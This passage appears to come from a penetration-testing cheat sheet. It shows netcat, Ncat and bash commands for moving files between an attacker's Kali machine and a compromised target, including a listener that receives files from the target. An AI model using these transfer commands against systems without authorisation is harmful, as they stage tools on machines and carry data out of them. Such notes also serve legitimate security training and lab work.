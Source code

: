 Download to target from your own machine:

```bash
# On your own machine listen for a connection
nc -vlnp 4545 < some_enum.txt
```
```bash
# On the remote target machine, connect to the listener
nc [your_kali_ip] 4545 > some_enum.txt
```

Depending on your nc implementation, you might have to use `CTRL+C` on your end to exit, if the connection does not end on its own after transfering the file. Just check if the filesize fits.

A possible solution is the `-q 0` paramter. It ends the connection 0 seconds after an EOF is reached.

Use `md5sum <filename>` on both machines to ensure file entegrity after the transfer (if it matters).

### Other netcat flavors 
```bash
# bsd netcat
nc -vl 44444 > received_file.txt
nc -N 10.11.12.10 44444 < sending_file.txt
```
```bash
# Nmap Ncat
ncat -l 5555 > file.txt
cat file.txt | ncat [IP_of_Server] 5555
```

### Via bind connect

Of course you can also do it the other way around and start the listener on the target machine. But then you are more likely to run into firewall / permission issues. 

Just reverse the above commands. The process is identical.


## BASH
```default        
 ██╗ ██╗ ██╗    ██████╗  █████╗ ███████╗██╗  ██╗
████████╗██║    ██╔══██╗██╔══██╗██╔════╝██║  ██║
╚██╔═██╔╝██║    ██████╔╝███████║███████╗███████║
████████╗╚═╝    ██╔══██╗██╔══██║╚════██║██╔══██║
╚██╔═██╔╝██╗    ██████╔╝██║  ██║███████║██║  ██║
 ╚═╝ ╚═╝ ╚═╝    ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
```

## Upload Files

On your own machine listen for the file using netcat:
```bash
nc -vlnp 4545 > outputfile.txt
```
